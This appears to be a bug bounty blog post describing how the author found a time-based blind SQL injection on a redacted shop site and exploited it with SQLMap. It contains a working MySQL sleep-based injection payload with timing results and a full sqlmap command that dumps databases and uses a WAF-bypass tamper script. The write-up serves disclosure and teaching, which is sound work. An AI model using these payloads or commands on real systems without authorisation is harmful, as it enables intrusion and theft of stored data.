 ```yaml
---
title: Exploiting Time-Based Blind SQL Injection With SQLMap
date: '2021-06-07'
tags: ['SQL Injection', 'SQLMap', 'Bug Bounty']
draft: false
summary: Demonstrating time-based blind SQL injection exploitation with SQLMap
images: ['/static/images/time-based-SQL-injection.png']
authors: ['default']
---
```


![time-based-SQL-injection](/static/images/time-based-SQL-injection.png)

In this post, I will share details about a time-based blind SQL injection vulnerability I found on a private bug bounty program through [HackerOne](https://www.hackerone.com/). This was also my first bug bounty on the platform. From this post by [Acunetix](https://www.acunetix.com/websitesecurity/sql-injection2/), SQL Injection vulnerabilities can be classified into three major categories:- _In-band SQL Injection_, _Inferential SQL Injection_ and _Out-of-band SQL Injection_.

## Types of SQL Injections

- `In-band SQL injections` allow the attacker to use the same communication channel to both launch the attack and gather results. The most common attacks in this category include Error-based and Union-based SQL injections.
- In `Inferential SQL injections` also referred to as Blind SQL injection attacks, the attacker is not be able to see the result of an attack and only relies on observing the web application’s response and the resulting behavior of the database server. Blind boolean-based and Blind time-based attacks are examples inferential SQL injection attacks. This post focuses on time-based SQL injection attacks that rely on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE.
- `Out-of-band SQL injections` are used as an alternative to inferential time-based techniques when the server responses are not very stable. The attacker in this case relies on the database server’s ability to make DNS or HTTP requests to deliver data them in case of a successful attack.

## Discovery

Whenever I am working on a new web target. I always start my recon by running [waybackurls](https://github.com/tomnomnom/waybackurls) and LinkFinder to gather as many endpoints as possible.

```bash
$ python3 linkfinder.py -i https://shop.redacted.com -d

$ cat domains.txt | waybackurls > urls.txt
```

Once the execution was done, it took me over one hour to go through all the urls one by one focusing on those that have parameters within the url. One particular url caught my attention as it was the most common in the list with a varying number of parameters each time.

```txt
https://shop.reducted.com/product
https://shop.reducted.com/product/beauty-fashion/perfumes/men
https://shop.reducted.com/product?brand=167&product_list_order=price
https://shop.reducted.com/product?brand=130&color=14
```

Whenever I see dynamic parameters in a url; for a start, I always try browsing through the urls, tampering the parameters and observing the results in Burp. In this case, I forwared the urls to the Burp intruder tab and tried using the wfuzz SQL.txt payloads. The site was however returning a similar custom error message for every payload and was therefore difficult enumerating through errors from the tampered parameters. I decided to test for blind SQL injections through Boolean Condition Injection, Using Time Delays and Using Out-Of-Band Channels following this [PortSwigger guide](https://portswigger.net/support/using-burp-to-detect-blind-sql-injection-bugs).

In a previously disclosed [HackerOne report](https://hackerone.com/reports/374027), I found a set of time-based blind SQL injection payloads. I tested these on the url parameters noting the deviations in time delays.

![sql-injection-1](/static/images/sql-injection-1.png)

I noted the following results for each payload which confirmed the presence of a time-based blind SQL injection vulnerability on the first part of the url path i.e. https://shop.reducted.com/**product**

```txt
if(now()=sysdate(),sleep(6),0)/'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"/ => 13.438 s
if(now()=sysdate(),sleep(3),0)/'XOR(if(now()=sysdate(),sleep(3),0))OR'"XOR(if(now()=sysdate(),sleep(3),0))OR"/ => 6.703 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.656 s
if(now()=sysdate(),sleep(9),0)/'XOR(if(now()=sysdate(),sleep(9),0))OR'"XOR(if(now()=sysdate(),sleep(9),0))OR"/ => 15.75 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.625 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.563 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.703 s
if(now()=sysdate(),sleep(6),0)/'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"/ => 12.797 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.796 s
```

## Exploitation

I used [SQLMap](https://sqlmap.org/) to exploit the blind SQL injection vulnerability, starting by enumerating the installed Database Management System (DBMS), list available databases and tables as well as dump data from the tables.

```bash
$ sqlmap -u "https://shop.reducted.com/product*" --dbs --level=5 --risk=3 --dump --batch --tamper=space2comment --threads 10
```

- `-u` : url to scan
- `\*`: injection point/parameter (if -p switch is not provided)
- `–-dbs` : option is used to enumerate the database
- `–-risk` : type of payloads used by the tool. Default value is 1 and can be configured up to level 3
- `–-level` : number of checks/payload to be performed. The value ranges from 1 to 5
- `–-dump` : dump data from tables
- `–-batch` : instruct to proceed without asking the user
- `–-tamper` : try bypass WAF. More tamper scripts here
- `–-threads` : define the number of concurrent requests to be sent

I determined that MySQL was running on the backend server and was able to dump data from the available two databases.

![sql-injection-2](/static/images/sql-injection-2.png)

I quickly reported this to the program and within one day the report was triaged and after two days I was rewarded my very first bounty on HackerOne!
